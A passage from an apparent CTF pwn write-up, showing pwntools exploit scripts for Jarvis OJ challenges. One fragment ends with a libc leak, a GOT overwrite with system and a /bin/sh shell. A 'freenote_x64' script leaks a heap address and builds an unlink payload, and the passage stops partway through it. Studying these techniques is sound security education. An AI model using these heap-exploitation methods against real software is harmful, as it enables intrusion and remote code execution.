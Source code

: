    ```python
   #gdb.attach(r)
   r.recvuntil("0. ")
   r.recvuntil("1. ")
   libc.address = u64(r.recvuntil("\x0a", drop = True).ljust(8, '\x00')) - libc.sym["atoi"]
   #get shell
   edit(1, p64(libc.sym['system']))
   r.sendlineafter("choice: ", "/bin/sh")
   r.interactive()
   
   ```

   

* #### [Xman]level6_x64

   ```python
   from pwn import *
   context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
   r = remote('pwn2.jarvisoj.com',9886)
   #context.log_level = "debug"
   #r = process(['./freenote_x64'],env = {"LD_PRELOAD":"./libc-2.19.so"})
   elf = ELF('./freenote_x64')
   libc = ELF('./libc-2.19.so')
   
   def list():
   	r.sendlineafter('Your choice:','1')
   
   def new(note):
   	r.sendlineafter('Your choice:','2')
   	r.sendlineafter('Length of new note:',str(len(note)))
   	r.sendlineafter('Enter your note:',note)
   
   def edit(index, note):
   	r.sendlineafter('Your choice:','3')
   	r.sendlineafter('Note number:',str(index))
   	r.sendlineafter('Length of note:',str(len(note)))
   	r.sendlineafter('Enter your note:',note)
   
   def delete(index):
   	r.sendlineafter('Your choice:','4')
   	r.sendlineafter('Note number:',str(index))
   
   
   for i in range(10):
   	new('f**k')
   
   #leak heap
   delete(3)
   delete(1)
   padding = 'f**k' * ((0x80 + 0x10)/4)
   edit(0, padding)
   list()
   r.recvuntil(padding)
   chunk3 = u64(r.recvuntil("\x0a", drop = True).ljust(8, '\x00'))
   heap_base = chunk3 - 6176 - 0x90 * 3
   chunk0 = heap_base + 0x30
   print(heap_base)
   print(chunk0)
   #gdb.attach(r)
   #unlink
   payload = p64(0x90) + p64(0x80) + p64(chunk0 - 0x18) + p64(chunk0 - 0x10)
   payload += 'f**k' * ((0x80 - 4 * 8)/4)
   payload += p64(0x80) + p64(0x90) + 'f**k' * (0x70/4)
   edit(0, payload)
   #gdb.attach(r)
   ```